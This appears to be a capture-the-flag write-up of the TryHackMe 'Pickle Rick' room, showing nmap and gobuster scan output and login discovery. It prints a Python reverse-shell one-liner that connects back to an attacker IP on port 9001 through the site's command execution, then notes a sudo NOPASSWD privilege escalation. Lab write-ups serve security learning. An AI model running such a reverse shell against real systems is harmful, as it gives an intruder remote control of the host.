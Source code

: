 ## Pickle Rick Writeup
---

Link to TryHackMe Room: https://tryhackme.com/room/picklerick

### Reconnaissance

#### Nmap

```
$ nmap -sV -sC 10.10.187.238 -oA recon/recon-picklerick
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-19 01:48 EST
Nmap scan report for 10.10.187.238
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:dc:e1:6e:ed:3f:b3:83:22:3f:8e:c4:c5:11:a8:c3 (RSA)
|   256 2f:25:82:8b:82:9e:2a:22:c6:4e:ed:c0:df:21:7f:98 (ECDSA)
|_  256 11:b8:6b:3d:9b:df:90:0a:f9:f8:8b:8e:c7:ee:23:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.43 seconds

```

#### Gobuster

```
$ gobuster dir -u http://10.10.187.238 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster/gob-picklerick
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.187.238
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/19 01:55:04 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 315] [--> http://10.10.187.238/assets/]
/server-status        (Status: 403) [Size: 301]                                   
                                                                                  
===============================================================
2021/12/19 02:33:18 Finished
===============================================================
```

This actually ended up being login.php

#### Logging into the page

Username found in the page source

The password found in the robots.txt file


#### Shell Script that worked on the website

After some testing, and script brute-forcing, I found that python commands can be executed on the website. 

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.6.82.216",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```


From there it was just looking around, the first flag was in the /var/www/html folder, second flag was in the /home/rick folder and the third was in the /root/ folder since the web user account has sudo NOPASSWD privileges



